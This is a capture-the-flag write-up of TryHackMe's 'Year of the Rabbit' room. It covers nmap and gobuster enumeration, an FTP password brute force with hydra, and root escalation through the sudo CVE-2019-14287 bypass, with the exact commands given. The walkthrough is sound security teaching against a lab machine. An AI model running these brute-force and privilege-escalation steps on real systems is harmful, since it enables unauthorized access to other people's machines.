

# Year of the Rabbit
**Date:** November 25th 2022

**Author:** j.info

**Link:** [**Year of the Rabbit**](https://tryhackme.com/room/yearoftherabbit) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>


<br>

## Objectives
- What is the user flag?
- What is the root flag?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 7853]
/assets               (Status: 200) [Size: 1144]
```

<br>

## Website Digging

Visiting the main page:


Nothing interesting shows up when viewing the page source code.

Checking out /assets:


Looking in style.css shows us that it lists a new page for us to check out:


I'm going to avoid that RickRolled.mp4 for now because it probably is just a rick roll.

Going to the sup3r_s3cret_fl4g.php link pops up a warning recommending that we disable javascript and then rick rolls us by redirecting to YouTube.


Disabling javascript and going to the page isn't much better:


Looks like we're stuck watching it for the next clue since it's probably baked into the audio given the line "Make sure your audio is turned up!". At 0:56 wear hear "I'll put you out of your misery. You're looking in the wrong place."

I run a gobuster scan on /assets and don't find anything additional.

When we turned off javascript and went to sup3r_s3cret_fl4g.php we ultimately ended up at /sup3r_secret_flag/ so I try and gobuster scan that as well but also nothing interesting.

Not knowing what else to do I load up Burp Suite and see if there is anything in the response headers I'm not aware of. When requesting the /sup3r_s3cr3t_fl4g.php file the response header has another directory and file listed:


Checking it out:



Scandalous! Opening the image shows a picture of a woman but nothing else. I download it to see if there is any steganography going on. Running `strings Hot_Babe.png` shows us this at the end:


Alright now we're getting somewhere. I build a wordlist with all of the possible passwords so we can brute force our way in.

Then I fire up hydra and see which password it is:

`hydra -l ftpuser -P passlist.txt $ip ftp`


<br>

## FTP Digging

I login and check things out:


Why am I not surprised. Ok let's see what sort of encoding that is and decode it. After doing some searching around it's called Brainf*ck and there are quite a few sites that will decode it for you. I chose this one and:


<br>

## System Access

Time to SSH over with the credentials we found:


Right away we see some potential hints in that message.

<br>

## System Enumeration

Not much in our home directory.

Checking `sudo -l` shows we don't have anything we can run as root.

Looking for SUID files with `find / -perm /4000 2>/dev/null` doesn't give us anything to go on.

No interesting files with capabilities after checking `getcap -r / 2>/dev/null`.

Looking at `id` shows we have quite a few groups:

```
uid=1000(eli) gid=1000(eli) groups=1000(eli),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),119(bluetooth)
```

There are only 3 users on the system with shells:

```
root:x:0:0:root:/root:/bin/bash
eli:x:1000:1000:eli,,,:/home/eli:/bin/bash
gwendoline:x:1001:1001:,,,:/home/gwendoline:/bin/bash
```

I look around /var/www/html and it's sub directories and don't find anything useful.

Checking out /home/gwendoline shows the user.txt flag but we can't view it, and there isn't anything else there.

Let's circle back to the hint in the MOTD login message about a secret hiding place. I run a search for s3cr3t and it comes back with a hit:

`find / -name *s3cr3t* 2>/dev/null`

```
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
```

Changing over to that directory we see the following file:

```
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```

And looking at it:

```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just <REDACTED>
Honestly!

Yours sincerely
   -Root
```

With that I SSH back over as gwendoline and login as her.

Checking `sudo -l`:

```
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

We can now grab our first user.txt flag in our home directory:

`wc -c /home/gwendoline/user.txt`

```
46 /home/gwendoline/user.txt
```

I continue looking around the system to check things out but don't find much else useful.

There has to be something with the fact that `sudo -l` showed something for this user and I do a search for sudo exploit !root and our second result shows up as:


Link -> [sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502)

Inside it shows us that sudo versions before 1.8.28 are vulnerable to this exploit. Checking `sudo -V` shows us:

```
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```

So we should be good to go with this one.

Since this is listed in our `sudo -l` output:

```
(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

All we need to do is run that command with sudo -u#-1 in front of it and we should then be able to break out of vi and maintain our privileges.

For those who don't know how to break out of vi here is the info from [**GTFOBins**](https://gtfobins.github.io/gtfobins/vi/#sudo)


<br>

## Root

I run:

`sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt`

And then type `:!/bin/bash` and hit enter.


And we're root! Grabbing the root.txt flag in /root:

`wc -c /root/root.txt`

```
46 /root/root.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **Burp Suite** to find a hidden directory in a response header
- Finding a username in an image file using the **strings** command
- Using **hydra** to brute force our way into the FTP server as that user
- Decoding **Brainf*ck** text to reveal system credentials that we use to SSH over with
- Discovering a hidden directory hinted at in the MOTD that gives us credentials to another user on the system and then moving over to them
- Using **CVE-2019-14287** which exploits an older version of sudo and allows us to escalate to root

<br>

Many thanks to:
- [**MuirlandOracle**](https://tryhackme.com/p/MuirlandOracle) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)